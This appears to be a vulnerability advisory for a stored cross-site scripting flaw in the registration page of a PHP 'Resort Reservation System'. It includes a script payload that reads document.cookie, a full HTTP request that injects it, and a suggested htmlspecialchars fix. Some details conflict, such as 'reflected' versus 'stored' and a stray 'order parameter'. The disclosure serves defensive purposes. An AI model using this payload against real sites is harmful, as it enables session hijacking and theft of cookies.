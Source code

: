 # Resort Reservation System - Stored Cross Site Scripting on Registration Page could allow to hijack admin session

### Date: 
> 26 April 2023

### CVE Assigned:
Pending

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Resort Reservation System](https://www.sourcecodester.com/php/16447/resort-reservation-system-php-and-sqlite3-source-code-free-download.html)

### Version:
> v 1.0

### What is Stored Cross-Site Scripting:
> Stored cross-site scripting (also known as second-order or persistent XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way.

### Affected Page: 
> Vulnerable Page: unvalidated data submitted through registration.php and reflected on users.php

> In this page order parameter is vulnerable to Reflected Cross Site Scripting Attack

### Description:
> The Stored XSS found in registration page and without unauthentication any malicious user could inject the Cross-Site Scripting (XSS) to hijack the admin session, it is a serious vulnerability that can have a significant impact on the security of a web application and its users. The main risk associated with Unauthenticated Stored XSS is that it can allow an attacker to steal sensitive information or take control of a admin's account on a web application. This can include login credentials, financial information, personal information, and more. Once an attacker gains access to a admin's account, they can perform any actions that the user is authorized to do. In addition, Unauthenticated Stored XSS can also be used as a stepping stone to launch more advanced attacks, such as phishing attacks, malware distribution, or distributed denial-of-service attacks. By gaining control of a admin's account on a web application, an attacker can use that account as a launching point for further attacks against the user or the web application itself.

### Proof of Concept:
> I registered the dummy user to verify the XSS attack, I used standard XSS payload <script>alert(document.cookie);</script> and the Below Image confirmed that, the parameter is vulnerable to stored XSS.

> Payload: <script>alert(document.cookie);</script>

> Request: 
```
POST /php-sqlite-rrs/LoginRegistration.php?a=register_user HTTP/1.1
Host: localhost
Content-Length: 172
sec-ch-ua: "Not:A-Brand";v="99", "Chromium";v="112"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
sec-ch-ua-platform: "Linux"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/php-sqlite-rrs/registration.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=d723dc8984528029f975c705200f3499
Connection: close

formToken=%242y%2410%24xOJNdT6NDl5IbdjSWkqQzOPga1ppXRtqP9BiJHvMCnnSWkh97G7w.&fullname=%3Cscript%3Ealert(document.cookie)%3B%3C%2Fscript%3E&username=xsstest&password=xsstest
```

> and when we logged in through admin account we got an alert with cookie.
![image](https://user-images.githubusercontent.com/123810418/234568385-44cb7966-5e4a-4c7a-8d48-a9c87b117c87.png)


### Recommendation: 
> Whoever uses this CMS, should update line no 40 and 41 of users.php with the following code to avoid cross-site scripting attack:
```
Old Code: <?php echo $_GET['fullname']; ?> and <?php echo $_GET['username']; ?>
New Code: <?php echo htmlspecialchars(strip_tags($_GET['fullname'])); ?> and <?php echo htmlspecialchars(strip_tags($_GET['username'])); ?>
```

Thank you for reading
